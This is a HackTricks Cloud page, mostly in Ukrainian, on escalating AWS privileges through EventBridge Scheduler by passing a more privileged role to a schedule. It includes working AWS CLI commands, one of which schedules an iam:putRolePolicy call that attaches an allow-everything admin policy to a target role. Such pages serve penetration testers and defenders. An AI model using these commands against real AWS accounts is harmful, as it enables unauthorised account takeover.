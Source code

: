 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler може бути використаний для ескалації привілеїв шляхом планування викликів до різних AWS сервісів. Використовуючи його можливість викликати сервіси на запланованій основі, користувачі з достатніми правами можуть ескалювати привілеї. Ось деякі з ключових дій, які EventBridge Scheduler може ініціювати, використовуючи шаблонні цілі:

* Lambda: lambda:InvokeFunction - Викликати функції Lambda за розкладом.
* CodeBuild: codebuild:StartBuild - Запустити проекти AWS CodeBuild.
* CodePipeline: codepipeline:StartPipelineExecution - Ініціювати виконання AWS CodePipeline.
* ECS: ecs:RunTask - Запустити завдання ECS.
* EventBridge: events:PutEvents - Додати події до EventBridge.
* Inspector: inspector:StartAssessmentRun - Розпочати оцінки Amazon Inspector.
* Kinesis: kinesis:PutRecord - Додати записи до потоків Kinesis.
* Firehose: firehose:PutRecord - Додати записи до потоків доставки Firehose.
* SageMaker: sagemaker:StartPipelineExecution - Розпочати виконання конвеєрів SageMaker.
* SNS: sns:Publish - Публікувати повідомлення в теми SNS.
* SQS: sqs:SendMessage - Надсилати повідомлення до черг SQS.
* Step Functions: states:StartExecution - Розпочати виконання AWS Step Functions.

Це лише деякі з шаблонних дій, які може виконувати EventBridge Scheduler. Однак, використовуючи універсальні цілі, можна ініціювати багато інших дій у сервісах AWS. Універсальні цілі дозволяють виконувати більш розширені API операції, ніж у шаблонному списку.

Більше інформації про EventBridge Scheduler у:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Користувачі з правами `sts:AssumeRole`, `iam:PassRole` та `scheduler:CreateSchedule or scheduler:UpdateSchedule` можуть ескалювати привілеї, використовуючи EventBridge Scheduler для виклику сервісів за допомогою ролі з вищими привілеями.

З цими правами зловмисник може прийняти роль з підвищеними привілеями та передати цю роль EventBridge Scheduler під час створення або оновлення розкладу. Розклад може бути налаштований для виконання будь-якої з дій, перерахованих раніше, таких як виклик функцій Lambda, запуск завдань ECS, ініціювання виконання CodePipeline або будь-яка операція з 270 сервісів AWS, підтримуваних EventBridge Scheduler. Плануючи ці дії, зловмисник може зловживати вищими привілеями для виконання несанкціонованих операцій у сервісах AWS. \\

Наприклад, вони можуть налаштувати розклад для виклику функції Lambda, яка є шаблонною дією:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
В додаток до шаблонних дій сервісу, ви можете використовувати універсальні цілі в EventBridge Scheduler для виклику широкого спектру API-операцій для багатьох сервісів AWS. Універсальні цілі пропонують гнучкість для виклику майже будь-якого API. Один з прикладів може бути використання універсальних цілей для додавання "AdminAccessPolicy", використовуючи роль, яка має політику "putRolePolicy":
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## References

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
